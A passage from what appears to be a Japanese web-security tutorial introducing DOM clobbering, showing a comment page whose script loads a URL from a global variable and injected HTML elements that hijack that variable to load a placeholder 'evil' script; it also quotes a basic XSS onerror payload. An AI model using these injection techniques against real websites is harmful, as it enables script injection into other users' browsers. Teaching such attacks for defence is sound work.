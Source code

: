 ## DOM clobbering入門

どのような状況でDOM clobberingを攻撃に利用できるでしょうか？

まず、ページにカスタムHTMLを表示する機会が必要です。そうでなければ不可能です。

したがって、潜在的な攻撃シナリオは次のようになる可能性があります。

```html
<!DOCTYPE html>
<html>
<body>
  <h1>コメント</h1>
  <div>
    あなたのコメント：こんにちは
  </div> 
  <script>
    if (window.TEST_MODE) {
      // テストスクリプトを読み込みます
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

コメントボードがあり、任意のコンテンツを入力できるとします。ただし、入力はサーバー側でサニタイズされ、JavaScriptを実行できるものはすべて削除されます。したがって、`<script></script>` は削除され、`<img src=x onerror=alert(1)>` の `onerror` 属性は削除されます。多くのXSSペイロードは通過しません。

要するに、JavaScriptを実行してXSSを達成することはできません。なぜなら、そのような試みはすべてフィルタリングされるからです。

ただし、さまざまな要因により、HTMLタグはフィルタリングされないため、カスタムHTMLを表示できます。JavaScriptが実行されない限り、任意のHTMLタグを挿入し、任意の属性を設定できます。

したがって、次のようにすることができます。

```html
<!DOCTYPE html>
<html>
<body>
  <h1>コメント</h1>
  <div>
    あなたのコメント：<div id="TEST_MODE"></div>
    <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
  </div> 
  <script>
    if (window.TEST_MODE) {
      // テストスクリプトを読み込みます
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```
